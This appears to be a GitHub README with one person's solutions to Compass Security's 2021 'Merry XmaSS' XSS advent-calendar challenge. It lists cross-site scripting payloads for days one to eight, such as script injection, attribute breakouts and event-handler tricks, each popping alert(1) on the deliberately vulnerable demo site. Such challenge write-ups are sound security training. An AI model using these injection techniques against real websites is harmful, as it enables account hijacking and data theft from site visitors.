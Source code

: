 # Merry XmaSS – XSS advent calendar 2021

Find the challenge hosted by [Compass Security](https://www.compass-security.com/de/) here: https://xmass.compass-demo.com/

Use your XSS skills to pop up *alert(1)* windows on every day.

**SPOILER ALERT!** Stop reading here, if you want to solve the challenges yourself.

---

These are some solutions I was able to find, I am sure there are many more.

**+++ Day 1 +++**  
https://xmass.compass-demo.com/level1
```
<script>alert(1)</script>
```
**+++ Day 2 +++**  
https://xmass.compass-demo.com/level2
```
a"><script>alert(1)</script
```
alternative solution (*user interaction required*)
```
a" onfocus="alert(1)"
```
**+++ Day 3 +++**  
https://xmass.compass-demo.com/level3
```
"><script>alert(1)</script>
```
**+++ Day 4 +++**  
https://xmass.compass-demo.com/level4
```
a";alert(1);"
```
**+++ Day 5 +++**  
https://xmass.compass-demo.com/level5
```
a</textarea><script>alert(1)</script>
```
**+++ Day 6 +++**  
https://xmass.compass-demo.com/level6
```
<img src="#" onerror="alert(1)"/>
```
**+++ Day 7 +++**  
https://xmass.compass-demo.com/level7 *(use URL below to get the alert window)*
```
https://xmass.compass-demo.com/level7?inject=<script>alert(1)</script>
```
**+++ Day 8 +++**  
https://xmass.compass-demo.com/level8
```
" autofocus onfocus="alert(1)
```
alternativ solution *(mouse cursor has to be in the 'conent area' of the browser)*
```
" onmouseover="alert(1)" style="display: block; position: fixed; top: 0; left: 0; z-index: 99999; width: 9999px; height: 9999px; (mouse cursor musst be on content area of browser window)
```
**+++ Day 9 +++**  
https://xmass.compass-demo.com/level9
```
tbc
```